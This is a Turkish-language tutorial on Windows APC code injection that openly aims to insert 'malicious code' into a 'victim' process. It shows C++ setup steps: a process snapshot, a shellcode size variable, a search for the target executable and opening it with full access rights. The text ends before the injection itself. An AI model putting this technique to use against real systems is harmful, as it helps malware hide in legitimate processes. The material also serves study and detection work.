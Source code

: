 **APC** içeren **Zararlı Kod**'u enjekte edeceğimiz **Process**'in **Snapshot**'unu alacağımız değişkeni oluşturalım :

```
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
```

**Kurban** yazılımı içeren **Process**'i tutacak değişkeni oluşturalım :

```
HANDLE victimProcess = NULL;
```

Hekleyeceğimiz **Process**'in kayıtlarını tutacak olan **processEntry**'i ve hekleyeceğimiz **Thread**'in kayıtlarını tutacka olan **threadEntry**'i oluşturalım :

```
PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };
THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
```

Hekleyeceğimiz **Process**'in içerdiği **Thread**'ların **ID**'lerini tutacak değişkeni oluşturalım :

```
std::vector<DWORD> threadIds;
```

**Shellcode**'un boyutunu tutacak değişkeni oluşturalım :

```
SIZE_T shellcodeSize = sizeof(shellcode);
```

Sonradan içini açacağımız **Thread**'i bize tutacak olan **threadHandle** değişkenini oluşturalım :

```
HANDLE threadHandle = NULL;
```

Aşşağıdaki **Kod** basit bir şekilde şuanda bilgisayarınzda mevcut çalışan **Process**'lerin dosya ismi ile bizim **Kurban** dosya ismini karşılaştırıp sonrada bulduğunda **processEntry**'ye kaydediyor.

Daha da basit şekilde **Kurban** yazılımı bulup bu yazılımın **Process** kayıtlarını **processEntry**'ye ekliyor. Bu şekilde de **yazılım** üzerinde düzenleme ya da içerik görme gerçekleştirebileceğiz. Örneğin **Kurban** yazılımın **Process ID**'sini görmek gibi vs....

```
if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processEntry.szExeFile, L"testtt1.exe") != 0) {
			Process32Next(snapshot, &processEntry);
		}
	}
```

**Kurban** yazılımı **PROCESS_ALL_ACCESS** değeri ile tüm erişime sahip şekilde **OpenProcess** fonksiyonu aracığılıyla açıyoruz.

```
victimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
```
